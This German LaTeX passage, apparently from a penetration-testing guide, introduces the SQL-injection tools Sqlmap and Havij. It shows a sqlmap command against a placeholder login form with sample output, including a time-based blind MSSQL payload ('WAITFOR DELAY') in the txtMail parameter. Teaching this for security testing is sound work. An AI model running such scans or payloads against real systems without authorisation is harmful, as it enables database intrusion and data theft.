 Um potenzielle SQL-Injection-Schwachstellen innerhalb einer Anwendung 
zu finden, existieren eine Vielzahl von kommerziellen Anwendungen 
(z.B. Havij\footnote{\url{http://www.itsecteam.com/products/havij-v116-advanced-sql-injection/}}) 
als auch Open-Source-Tools (z.B. Sqlmap\footnote{\url{http://sqlmap.org/}}).

\newpage
{}

Bei Sqlmap handelt es sich um ein Open-Source-Tool, um SQL-Injection-Schwachstellen 
automatisiert zu finden und auszunutzen. Bei Sqlmap 
handelt es sich um eine konsolenbasierte Anwendung. Das kommerzielle 
Tool Havij bietet dem Anwender hingegen eine grafische Menüführung an.

Im folgenden Beispiel besteht die Vermutung, dass einer der folgenden 
POST-Parameter für SQL-Injection anfällig ist. Dabei ist im Vorfeld der 
Überprüfung bekannt, dass es sich bei der Backend-Datenbank um eine 
MSSQL-Datenbank handelt. Um dies automatisiert zu verifizieren, wird 
Sqlmap mit folgenden Parametern aufgerufen:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
sqlmap.py -u "http://www.beispiel.de"
--data="p1=index.aspx?txtMail=user@name.de&txtPw=geheim&cmdSend=Login" 
--dbms=mssql --risk=3 --level=3
\end{lstlisting}

Ist einer der Parameter für SQL-Injection-Angriffe anfällig, werden 
Informationen zum darunterliegen Betriebssystem, der eingesetzten 
Datenbank sowie Details zur der verwendeten Injection-Technik 
ausgegeben.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows Vista
web application technology: ASP.NET, ASP, Microsoft IIS 7.0
back-end DBMS: Microsoft SQL Server 2008

Place: POST
  Type: AND/OR time-based blind
  Title: Microsoft SQL Server/Sybase time-based blind
  Payload: p1=index.aspx?txtMail=user@name.de' WAITFOR DELAY '0:0:5'
  --&txtPw=geheim&cmdSend=Login
\end{lstlisting}

Wie der Ausgabe zu entnehmen ist, wird als Datenbanksystem das Microsoft 
Produkt SQL-Server 2008 auf einem Microsoft Windows Vista betrieben. 
Der Parameter \texttt{txtMail} ist für einen time-based blind 
SQL-Injection-Angriff anfällig.

